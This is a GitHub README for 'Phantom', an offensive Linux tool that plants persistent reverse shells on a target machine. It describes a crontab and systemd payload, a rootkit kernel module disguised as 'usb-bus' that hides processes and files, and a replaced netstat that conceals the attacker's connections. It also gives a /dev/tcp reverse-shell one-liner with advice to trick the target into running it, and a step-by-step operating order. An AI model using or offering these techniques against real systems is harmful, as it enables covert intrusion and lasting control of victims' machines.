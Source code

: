 # Overview

Phantom is a tool which creates backdoor shells from a target machine to an attacker's and hides their
pid, persisting through reboots. It also hides the files needed to perform the above and replaces netstat.

**Phantom was created for educational purposes. Stay away from illegal activities.**

Phantom uses ncat on the attacker's machine to listen for incoming connections from the target's machine. At first it
opens an ncat connection to a port and when the target's machine connects to this port it delivers the payload. The payload
opens a new backdoor shell every 5 minutes to the attacker's machine, but to a different port than the first one. So, essentially
you need to specify two ports. The reason for this is that this way you have more control of what to do with the backdoor shell,
otherwise the same payload gets executed each time the target connects to your machine.

## Usage

*Syntax*:	phantom-init	ip 1st-port 2nd-port
				ip: the attacker's ip
				1st-port: the port that listens for connections to deliver the payload
				2nd-port: the port that listens for the backdoor shells after delivering
				the payload

phantom-init: Opens an ncat listening process to a predefined ip and port and redirects input to the payload file.

payload: This is the file that gets executed when the target connects to the listening ncat 1st-port. It does the following:
	a) If the user connecting is not root it overwrites the user's crontab entry with code which periodically attempts to create a
	backdoor shell to the 2nd-port.
	b) If the user connecting is root it creates a systemd service which executes a script, continuously trying to
	create a backdoor bash shell to your machine (2nd-port). It also creates a systemd service which executes a script,
	hiding the pids of the backdoor shells and both of the systemd services (ps aux cannot find them this way). It then
	creates and inserts a rootkit module named usb-bus which hides its files, the ones of the scripts that the systemd services use
	and the systemd services themselves. It is also persistent through reboots because the second systemd service
	(the one which hides pids) inserts it when it loads at boot time. Then, it replaces netstat with a version that hides the remote
	connections to the specified ip and 2nd-port.

phantom-firewall: This file uses nftables. Use it only with sudo. It makes a backup of the nft ruleset in /etc/nftables.conf.bak and then
modifies the nft ruleset so that it doesn't allow more than one connection from a target ip. This is good because the target machine will
continuously open new bash shells, increasing the footprint of Phantom's actions and putting increasing and uneeded load on the target system.
It can also undo changes made to the nft ruleset by using the argument -r | -R .

You have to somehow make the target execute this code, so that he connects to the 1st-port:
bash -c 'bash &>/dev/tcp/ip/1st-port 0>&1 &'
ip and 1st-port are the ones specified above.

Order of execution:
a. Before delivering the payload:
	1) Execute phantom-init and wait for the target to connect to your machine.

b. After delivering the payload:
	1) Execute phantom-firewall as root, so it can modify the firewall rules.
	2) Create an ncat process listening at the 2nd-port. (use the -k flag to accept multiple connections)

Order of closing:
1.	Close phantom-firewall and wait for some seconds so the connections can start flowing normally again.
2. 	Close the ncat listening process so all the connections get closed with it.
3: 	Execute this command: sudo phantom-firewall -r | -R. This undoes any changes to the nft ruleset made by phantom-firewall.
		This is needed if you want to open ncat again and for the target to be able to connect to you again, otherwise a nftables rule is gonna
		block him.

Check https://github.com/konsaranto/phantom for newer versions.

---Contact Information---

Konstantinos Sarantopoulos
konsaranto@gmail.com
